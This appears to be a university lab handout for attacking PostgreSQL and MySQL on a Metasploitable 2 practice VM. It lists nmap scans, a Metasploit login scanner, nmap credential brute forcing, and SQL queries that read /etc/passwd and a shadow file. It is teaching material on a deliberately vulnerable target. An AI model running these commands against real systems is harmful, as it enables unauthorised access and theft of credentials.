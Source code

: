 # ACIT 4630 - Lab 3: Attacking Databases on Metasploitable 2

## Instructions

### Scanning for Open Ports
Run the following command to scan for services and ports on the Metasploitable 2 VM:
```sh
   sudo nmap -sV <Metasploitable2_VM_IP>
```
Identify the open ports for PostgreSQL (port 5432) and MySQL (port 3306).
Run a more detailed scan on the database ports: (OPTIONAL)
```sh
sudo nmap -T5 --script='all' -p5432,3306 <Metasploitable2_VM_IP>
```
### Attack PostgreSQL Database
Start Metasploit in Kali Linux:
```sh
   msfconsole
```
Search for the PostgreSQL login scanner:
```sh
   search scanner postgres login
```
Set the necessary variables:
- Set `RHOSTS` to your <Metasploitable2_VM_IP>.
- Set `ANONYMOUS_LOGIN` to true.

Run the exploit to find working credentials: `run` or `exploit`
After discovering the credentials, log in to the PostgreSQL database:
```sh
   psql -h <Metasploitable2_VM_IP> -U <Username> -d <DB Name>
```
Once inside the PostgreSQL shell, retrieve the system's password file as below:
1.	First, we need to create a Table:
    ```sql
    CREATE TABLE passwd_data (line TEXT);
    ```
2.	Then we need to copy the file to out table:
    ```sql
    COPY passwd_data FROM '/etc/passwd';
    ```
3.	We read the whole table:
    ```sql
    SELECT * from passwd_data;
    ```

### Attack MySQL Database
Run the following Nmap command to brute force MySQL credentials:
```sh
sudo nmap -T1 -d --script="mysql-brute" -p3306 <Metasploitable2_VM_IP>
```
**Note**: If no credentials are found, try again OR reboot the Metasploitable 2 VM.
After obtaining credentials, log in to MySQL:
```sh
  mysql -h <Metasploitable2_VM_IP> -u <Username found> -p --skip-ssl
```
In the MySQL shell, dump the password file:
```sql
SELECT load_file('etc/shadow-');
```

### Submission For Lab 3: 
- Add these screenshots to your report:
- Result of msfconsole postgres exploit
- Result of entering postgres database and retrieving the passwd file
- Result of nmap script where you got credentials of mysql
- Result of entering mysql database queries and retrieving the passwd file

